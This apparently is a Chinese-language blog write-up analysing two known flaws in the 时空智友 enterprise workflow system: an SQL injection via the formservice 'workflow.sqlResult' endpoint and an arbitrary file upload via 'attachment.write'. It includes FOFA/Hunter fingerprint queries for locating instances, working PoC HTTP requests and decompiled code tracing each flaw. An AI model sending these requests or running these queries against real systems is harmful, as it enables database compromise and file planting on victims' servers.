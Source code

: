 



## 时空智友

```
body="企业流程化管控系统" && body="密码(Password):"
```

    fofa-query: icon_hash="-1700598274"
    hunter-query: web.icon=="2464cbce5dd2681dd4fb62d055520d78"

一个月前看的了，今天来写一哈

网上历史漏洞如下

| workflow.sqlResult sql注入 |
| -------------------------- |
| attachment.write 文件上传  |



### workflow.sqlResult sql注入

网上poc如下

```
POST /formservice?service=workflow.sqlResult HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
         
{"params":{"a":"11"},"sql":"select @@version"}
```

爆出来的漏洞大部分都是通过formservice反射调用存在漏洞的service的方法，formservice大致代码如下

```
protected final void service(HttpServletRequest var1, HttpServletResponse var2) {
        var7 = ((Class)(var6 = getService(var1, var1.getParameter("service")))[0]).newInstance();
            public static Object[] getService(HttpServletRequest var0, String var1) {
            var9 = Class.forName((String)pluginMap.get(var3));
            var7 = var9.getMethods();
```

而这个service必须是formservice中的init中获取plugins.xml中读取到的service

```
pluginMap = Configuration.getPlugins("form-service", "service");
```

```
getPlugins("/plugins.xml",
```

而这个sql注入是workflow.sqlResult，所以找到对应文件

```
		<service name="workflow" class="com.xxx.xxxx.ServiceImpl"/>
```

直接跟进

```
    public String sqlResult(HttpServletRequest var1, HttpServletResponse var2, JSONObject var3) {
        String var4 = var3.getString("sql");
        Map var5 = FormUtil.jsonObjectToMap(var3.getJSONObject("params"));
        return DBUtil.getFieldValue(var4, var5);
    }
```



### attachment.write 文件上传

网上poc如下

```
        POST /formservice?service=attachment.write&isattach=false&filename=cnvd.txt HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Macintosh;T2lkQm95X0c= Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
        Accept-Encoding: gzip

        {{randstr}}
        
        GET /form/temp/{{name}} HTTP/1.1
        Host: {{Hostname}}
```



attachment.write也是通过formservice来实现文件上传，直接进入文件

```
<service name="attachment" class="com.xxxx.xxxx.services.xxxxx"/>
```



代码大致如下

```
public String write(HttpServletRequest request, HttpServletResponse response, InputStream is) throws Exception {
    String filename = GeneralUtility.getParameter(request, "filename");
    boolean isattach = GeneralUtility.getParameter(request, "isattach", "true").equals("true");
    String attachFileName = "";
    if (isattach) {
    xxxxxx;
    } else {
        String rootpath = Configuration.getRealPath(isattach ? "/attachments" : "/form");
        File tmpPath = new File(rootpath + "/temp");
        File file = new File(tmpPath, attachFileName);
        FileOutputStream fos = new FileOutputStream(file);
        FileUtility.in2out(is, fos);
    }

    return attachFileName;
}
```

isattach默认为true，poc中传入false进入到else部分，文件目录由form和temp拼接

文件传入数据由FileUtility.in2out(is, fos);处理



